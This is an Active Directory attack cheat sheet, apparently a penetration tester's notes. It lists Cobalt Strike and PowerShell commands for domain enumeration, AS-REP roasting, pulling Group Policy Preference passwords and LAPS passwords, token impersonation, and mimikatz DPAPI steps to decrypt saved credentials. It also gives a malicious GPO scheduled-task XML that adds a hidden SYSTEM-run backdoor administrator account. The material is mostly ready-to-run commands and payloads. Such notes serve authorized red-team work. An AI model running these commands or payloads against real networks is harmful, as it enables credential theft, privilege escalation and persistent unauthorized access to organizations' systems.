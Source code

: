 ## **More fun in AD**

Below are a collection of items to run within a new environment to check for

In addition the bloodhound \(\(Invoke-BloodHound -CollectionMethod All -CompressData -RemoveCSV\) and basic net enumeration \(net view, computers, dclist, domain\_trusts\) try looking for the following:

Next try running

**Powerup**

```
powershell-import /opt/PowerSploit/Privesc/PowerUp.ps1
powershell Invoke-AllChecks
```

as well as hamrj0y's powerview tips

[https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

**Group functions**

`Get-NetLocalGroup -ComputerName MX01 -GroupName "Remote Management Users"`Gets members of users who can use WinRM on a specific machine.

`Get-NetLocalGroup -ComputerName MX01 -GroupName "Remote Desktop Users"`Gets members of users who can RDP to a specific machine.

**Determine if kerberos pre-auth is not set**

```
#With Powerview

# check for users who don't have kerberos preauthentication set
Get-DomainUser -PreauthNotRequired
Get-DomainUser -UACFilter DONT_REQ_PREAUTH
Invoke-ASREPRoast -Verbose | fl
```

```
#Retrieves the plaintext password and other information for accounts pushed through Group Policy Preferences.
powershell-import /opt/PowerSploit/Exfiltration/Get-GPPPassword.ps1
powershell Get-GPPPassword

https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1
```

Note: Great cheat sheets for powerview, powerup,powersploit, etc.

```
https://github.com/HarmJ0y/CheatSheets
```

Note: A great tool for cracking hashes is kwprocessor

```
./kwp -z basechars/full.base keymaps/en.keymap routes/2-to-16-max-3-direction-changes.route > largekwpshift.txt
```

**LAPS:**

Note: This access is not currently in Bloodhound but is planned for a future update

```
#Import the script into memory
powershell-import /opt/LAPSToolkit/LAPSToolkit.ps1

#Searches through all OUs to see which AD groups can read the ms-Mcs-AdmPwd attribute
powershell Find-LAPSDelegatedGroups

#Parses through ExtendedRights for each AD computer with LAPS enabled and looks for which group has read access and if any user has "All Extended Rights".
powershell Find-AdmPwdExtendedRights 

#Displays all computers with LAPS enabled, password expriation, and password if user has access
powershell Get-LAPSComputers
```

[https://www.harmj0y.net/blog/powershell/running-laps-with-powerview/](https://www.harmj0y.net/blog/powershell/running-laps-with-powerview/)

[https://www.pentestgeek.com/penetration-testing/another-lap-around-microsoft-laps](https://www.pentestgeek.com/penetration-testing/another-lap-around-microsoft-laps)

**Token Notes:**

You can create a token and pass to obtain a shell when not in elevated process. Additionally, only psexec/psexec\_psh work with make\_token, not winrm or wmi

```
make_token .\Administrator P@ssw0rd
ls \\dc01\c$
```

**Credential Manager & DPAPI:**

If assume / know the machine is used for RDP, there might be saved credentials.

```
shell vaultcmd /listcreds:"Windows Credentials" /all
```

These credentials are stored within the users directory,:

```
powershell Get-ChildItem C:\Users\<User>\AppData\Local\Microsoft\Credentials\ -Force
```

Take the output from above command to get details

```
mimikatz dpapi::cred /in:C:\Users\<User>\AppData\Local\Microsoft\Credentials\<File Name from above command>
```

Get the Masterkey from cache

```
mimikatz !sekurlsa::dpapi
```

Obtain password

```
mimikatz dpapi::cred /in:C:\Users\<User>\AppData\Local\Microsoft\Credentials\<File Name from earlier command> /masterkey:<key from above command>
```

**Proxychains & RDP:**

```
beacon> socks 1337
nano /etc/proxychains.conf socks4 127.0.0.1 1337
proxychains xfreerdp /u:<username> /v:<IPADDRESS>
```

**GPO Permissions:**

[https://www.harmj0y.net/blog/redteaming/abusing-gpo-permissions/](https://www.harmj0y.net/blog/redteaming/abusing-gpo-permissions/)

```
powershell-import /opt/Empire/data/module_source/situational_awareness/network/powerview.ps1

#this outputs the GPOs applied to the WKS01 system
powershell Get-NetGPO -ComputerName WKS01
```

GPOs can also be viewed in blooodhound now, first type system name in the search field, click node then look at effective inbound GPOs, if one is hanging off from the rest then look into it by noting the GUID and then looking at the ouput of the poweshell command above

```
powershell Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}
```

note the applicable  gpcfilesyspath and then  
 determine what you can edit and possibly upload a malicious ScheduledTasks.xml

Example Malicious XML

```
<?xml version="1.0" encoding="utf-8"?>
<ScheduledTasks clsid="{XXXXXXX-XXXX-XXXX-XXXX-XXXXXXXX}">
    <ImmediateTaskV5 clsid="{XXXXXXX-XXXX-XXXX-XXXX-XXXXXXXX}" name="OLDGPO" image="0" changed="2016-03-20 12:50:28" uid="{XXXXXXX-XXXX-XXXX-XXXX-XXXXXXXX}" userContext="0" removePolicy="0">
        <Properties action="C" name="OLDGPO" runAs="NT AUTHORITY\System" logonType="S4U">
            <Task version="1.3">
                <RegistrationInfo>
                    <Author>NT AUTHORITY\System</Author>
                    <Description></Description>
                </RegistrationInfo>
                <Principals>
                    <Principal id="Author">
                        <UserId>NT AUTHORITY\System</UserId>
                        <RunLevel>HighestAvailable</RunLevel>
                        <LogonType>S4U</LogonType>
                    </Principal>
                </Principals>
                <Settings>
                    <IdleSettings>
                        <Duration>PT10M</Duration>
                        <WaitTimeout>PT1H</WaitTimeout>
                        <StopOnIdleEnd>true</StopOnIdleEnd>
                        <RestartOnIdle>false</RestartOnIdle>
                    </IdleSettings>
                    <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
                    <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
                    <StopIfGoingOnBatteries>true</StopIfGoingOnBatteries>
                    <AllowHardTerminate>false</AllowHardTerminate>
                    <StartWhenAvailable>true</StartWhenAvailable>
                    <AllowStartOnDemand>false</AllowStartOnDemand>
                    <Enabled>true</Enabled>
                    <Hidden>true</Hidden>
                    <ExecutionTimeLimit>PT0S</ExecutionTimeLimit>
                    <Priority>7</Priority>
                    <DeleteExpiredTaskAfter>PT0S</DeleteExpiredTaskAfter>
                    <RestartOnFailure>
                        <Interval>PT15M</Interval>
                        <Count>3</Count>
                    </RestartOnFailure>
                </Settings>
                <Actions Context="Author">
                    <Exec>
                        <Command>powershell</Command>
                        <Arguments>-c "net user coolguy P@ssw0rd1234 /add; net localgroup administrators torch /add"</Arguments>
                    </Exec>
                </Actions>
                <Triggers>
                    <TimeTrigger>
                        <StartBoundary>%LocalTimeXmlEx%</StartBoundary>
                        <EndBoundary>%LocalTimeXmlEx%</EndBoundary>
                        <Enabled>true</Enabled>
                    </TimeTrigger>
                </Triggers>
            </Task>
        </Properties>
    </ImmediateTaskV5>
</ScheduledTasks>
```

**Note:**

**Reading ACE**

ObjectDN - the target of the ACE

Identity Reference - Item that has rights to ObjectDN

ActiveDirectoryRights - Dictates what the IdentityReference can do to ObjectDN



**Resources:**

[https://rastamouse.me/2017/08/jumping-network-segregation-with-rdp/](https://rastamouse.me/2017/08/jumping-network-segregation-with-rdp/)

[http://www.harmj0y.net/blog/activedirectory/roasting-as-reps/](https://legacy.gitbook.com/book/d00mfist1/ctf/edit#)

[https://chryzsh.gitbooks.io/darthsidious/content/enumeration/powerview.html](https://chryzsh.gitbooks.io/darthsidious/content/enumeration/powerview.html)


